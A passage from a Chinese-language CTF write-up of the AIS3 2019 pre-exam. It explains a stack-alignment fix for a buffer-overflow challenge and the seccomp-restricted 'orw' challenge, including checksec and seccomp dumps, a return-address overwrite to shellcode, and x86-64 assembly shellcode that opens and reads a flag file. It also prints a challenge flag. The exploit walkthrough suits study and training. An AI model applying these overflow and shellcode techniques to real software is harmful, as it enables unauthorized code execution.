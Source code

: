 &emsp;&emsp;所以此時目標就很簡單了，只要在 stack 是對齊的時候執行這個 function 就行了，有很多種作法，任何只要確保符合不會 crash 的狀況就行：
1. 直接跳到 `0x401156`，跳過 `push rbp` ，就不會使 stack 變成 8 結尾。
2. 會 ROP 的話就在前面塞一個 `ret` 的 gadget 就行了．
3. 意外的發現，有人可能算錯 offset 沒算到 rbp 要加 8 之類的，把 function pointer 蓋到放 rbp 的位置，結果成功，原因為 main return 回 `__libc_start_main` 時，有一行 `call rbp`，此時 stack 是對齊的。

&emsp;&emsp;很多人可能是單純黑箱亂 try 到成功，例如往前往後跳，offset等等，這在某些情況下不一定是個壞方法，不過遇到需要巧妙精細的構造 payload 的情況，可能 cp 值就不高了，理解原理是很重要的。

[exploit.py](https://github.com/yuawn/ais3-2019-pre-exam/blob/master/exploit/bof.py)

#### AIS3{TOO0O0O0O0OO0O0OOo0o0o0o00_EASY}

### orw - 67 Solves
> Tags: shellcoding, syscall

Binary 保護機制：
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
&emsp;&emsp;這題也是非常經典的題目，其實意思差不多就是可以直接 Google 到 write-up 解法，可以發現執行檔的 NX 保護機制沒開，也無 canary，代表倘若知道 shellcode 的位置，可以透過 overflow return address 跳到 shellcode 來執行(有 canary 則需繞過它才能 overflow 到 return address，有 NX 則輸入的 shellcode 為 data 無執行權限)，另外，這題 binary 有上 seccomp rules 的保護，你可以透過一些工具來分析他，例如 [seccomp-tools](https://github.com/david942j/seccomp-tools)：
```c
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
 0007: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```
&emsp;&emsp;基本上意思就是，除了 open, read, write 以外的 syscall 都會被 kill 掉，所以這題你的 shellcode，要使用 syscall 就只能限制在這三個 syscall 使用，不過這並無大礙，這三個 syscall 已經滿足打開檔案，並從 fd 讀取檔案內容，並輸出出來，而目標檔案當然就是遠端機器上的 flag 了。

&emsp;&emsp;分析會發現，輸入的 buffer 屬於 global variable，而題 binary 沒有 PIE，所以 address 是固定且可知的，後面的 bof 就很明顯了，將 return address 覆蓋成 buffer address，將 shellcode 輸入至 buf 即可，剩下的就是撰寫 shellcode 了，調用 syscall 的方法很簡單，將要調用的 syscall 號數放在 rax 暫存器，並透過 rdi rsi rdx 傳參，踩上 syscall 這個 instruction 就可以了，依序實作出 open read write flag 檔案的 shellcode，這邊附上一個超土炮作法，當然很多種寫法，能完成目的就OK：
```nasm
mov rax, 0x67616c662f77
push rax
mov rax, 0x726f2f656d6f682f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 2
syscall

mov rdi, rax
mov rsi, rsp
mov rdx, 0x100
mov rax, 0
syscall
```